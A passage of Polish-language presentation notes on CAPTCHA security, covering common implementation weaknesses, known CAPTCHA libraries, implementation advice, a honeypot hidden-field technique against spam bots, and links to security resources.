- Słabość konkretnej implementacji :: Niektóre implementacje CAPTCHA
     można obejść wykorzystując słabości ich implementacji:
  - brak losowości, zbudowanie słownika testów (np obrazków) z
    przypisanymi na stałe rozwiązaniami i captchaID
  - skończona ilość rozwiązań (baza testów)
  - zbyt proste rozwiązania (za mała ilość znaków) lub rozwiązania są wyrazami ze słownika
  - możliwość wielokrotnego użycia sesji w którym raz poprawnie rozwiązano CAPTCHA-ę
  - captcha-e generowane po stronie klienta - mimo, że walidowane po
    stronie serwera, to można podejrzeć dane na podstawie których
    generowały testowy obrazek
  - walidacja po stronie klienta, nawet jeśli rozwiązanie jest podane
    jako hash (MD5)
  - przekazywanie dodatkowych parametrów które mogą wskazywać na rozwiązanie

#+REVEAL: split

- OCR :: Tekstowe captcha-e które zawierają zbyt mało szumu i
         zniekształceń mogą zostać rozwiązane przez oprogramowanie OCR
         lub inne działające na zasadzie analizy obrazów

- Podstawienie (CAPTCHA Proxy) :: Czasami serwis który oferuje
     pozornie ciekawa treść dla użytkowników (np.filmy, muzyka) prosi
     o rozwiązanie testu, który pochodzi z zupełnie innego serwisu

- Ludzie (CAPTCHA drones) :: Istnieje możliwość zamówienia rozwiązania
     pakietu CAPTCHA przez ludzi (kilka $ za 1000 rozwiązanych testów)

** Dostępne implementacje
- reCAPTCHA http://recaptcha.net :: Obecnie chyba najpopularniejsza,
     dostarczana jako usługa, "pomaga światu"
- Jcaptcha http://jcaptcha.sourceforge.net :: Biblioteka do
     generowania obrazków i testów audio. Nierozwijana od 2012r.
- SimpleCaptcha http://simplecaptcha.sourceforge.net/ :: Obrazki i
     audio. Nierozwijana od 2013r.
- Kaptcha https://code.google.com/p/kaptcha :: Nierozwijana od 2010r.
- Cage https://akiraly.github.io/cage :: Nierozwijana od 2011r.
- BotDetect https://captcha.com/java-captcha.html :: Aktywnie
     rozwijana, płatna

** Poprawna implementacja
- Captcha powinna być rozwiązywalna dla człowieka, nie powodując przy
  tym irytacji, jednakże nie może być zbyt prosta
- Jeśli nasz test polega na generowaniu zniekształconych tekstów,
  powinna być możliwość wygenerowania innego obrazka w ramach tej
  samej sesji
- Dobrze jest zaoferować alternatywny sposób uwierzytelnienia (inny
  rodzaj CAPTCHA-y, wysłanie SMSa z kodem itp)
- Generując obrazki warto zredukować alfabet pod kątem podobnych
  znaków: =O= i =0=, =1= i =l=
- Weryfikując rozwiązania lepiej nie bazować na wielkości znaków

** Honeypot Captcha (Invisible Captcha)
Ciekawy trick pozwalający odfiltrować request-y
pochodzące od spam-botów ("captcha bez captcha-y").

- Roboty spamujące fora i systemy komentarzy z reguły nie interpretują
  CSS i JS
- W formularzu do wysłania komentarza umieszczamy dodatkowe pole,
  które może mieć ciekawą nazwę jak "message" czy "comment"
- Używając CSS-a ukrywamy to pole (np: =display: none= albo
  modyfikując rozmiar i położenie)
- Na serwerze dodajemy filtr/interceptor/walidację pod kątem naszego
  ukrytego pola
- Odrzucamy każdy request który dostarczył wartość dla naszej
  "przynęty"
- Można też zwrócić poprawny kod (200), tak by wyglądało, że request
  został zaakceptowany

* Linki, materiały
- https://www.owasp.org/
- http://niebezpiecznik.pl
- http://securitum.pl
- http://sekurak.pl
- https://zaufanatrzeciastrona.pl/
- http://www.html5rocks.com/en/tutorials/security/content-security-policy/

- https://haveibeenpwned.com/
